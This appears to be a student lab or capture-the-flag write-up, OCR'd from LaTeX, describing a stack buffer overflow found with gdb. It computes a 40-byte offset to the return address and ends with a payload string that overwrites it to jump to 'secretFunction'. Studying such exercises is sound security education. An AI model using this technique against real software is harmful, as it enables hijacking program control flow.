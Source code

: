 \documentclass[11pt]{article}
\begin{document}
Looking at the last output, I found the value 0x400cd9 at the start of the line 0x7fffffffde98. Since the beginning of the buffer is at 0x7fffffffde70, there is a difference of 0x28 to fill between the beginning of the buffer and the start of the return address. This means that 40 characters need to be placed in the buffer before the return address can be altered.

\begin{itemize}
\item (gdb) disas secretFunction
\item
Dump of assembler code for function secretFunction:\\
   0x0000000000400e18 $<+0>$:	push   \%rbp\\
   0x0000000000400e19 $<+1>$:	mov    \%rsp,\%rbp\\
   0x0000000000400e1c $<+4>$:	mov    \$0x400fa8,\%edi\\
   0x0000000000400e21 $<+9>$:	callq  0x4008f0 <puts@plt>\\
   0x0000000000400e26 $<+14>$:	mov    \$0x1,\%edi\\
   0x0000000000400e2b $<+19>$:	callq  0x400a00 <exit@plt>\\
End of assembler dump.
\end{itemize}

This result showed me that the altered return address should be 0x400e18, which would have to be inputted backwards. All of this helped me create a string that would call the secretFunction:

\verb|AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x18\x0e\x40\x00|
\end{document}
